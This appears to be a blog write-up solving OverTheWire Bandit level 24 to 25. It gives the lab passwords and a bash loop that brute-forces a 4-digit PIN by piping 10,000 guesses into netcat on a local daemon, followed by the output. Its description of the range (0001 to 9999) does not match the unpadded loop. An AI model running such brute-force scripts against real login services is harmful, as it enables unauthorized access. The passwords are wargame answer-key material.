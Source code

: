 ```yaml
---
title: "Bandit: Level 24 - Level 25"
date: 2024-09-12 15:00:00 -500 
categories: [OvertheWire, Bandit]
tags: [linux,wargames,bandit,overthewire]
author: Christoph K
---
```

<!-- Change LEVELS -->

### Level 23

**Username:** `bandit24`  
**Password:** `gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8`

### Task:
https://overthewire.org/wargames/bandit/bandit25.html

<!-- PICTURE FROM TASK -->

    A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
    You do not need to create new connections each time
<!-- change username bandit!! -->


### Start

Let's begin by connecting to the server `bandit.labs.overthewire.org` and logging in with user `bandit24` on port `2220`.



<!-- CHANGE COMMANDS IF NECCESSARY -->


### Solve the level

Okay we have to write another script, which sends a 4-digit-number with password to a connection on port `30002`.

The first thing we should do is that we have to understand the process which we try to automate.

Therefore we open a connection to port `30002` via `netcat`.

```bash

bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.

```
Okay we have to enter the password and then the pin code. 

Like: 
`gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 0001`

Lets try to create a script here.

```bash

#!/bin/bash

for i in {0..9999} 
do 
	echo "gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8 $i" >> bruteforce.txt
done

nc localhost 30002 < bruteforce.txt

```
- shebang `#!/bin/bash`
- we do a `for` iteration and try all combinations from 0001-9999
- in our `for`iteration we create our `bruteforce file` 
- with our `bruteforce file` we can now take it as input with `<`


Result:

```bash

Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
Correct!
The password of user bandit25 is iCi86ttT4KSNe1armKiwbQNmB3YJP3q4

```

We got it.

Password: `iCi86ttT4KSNe1armKiwbQNmB3YJP3q4`

### Note:

This script is on purpose written very easy. Of course there are many better ways to write that. But this was my first try in this task and it worked with this script! :) 


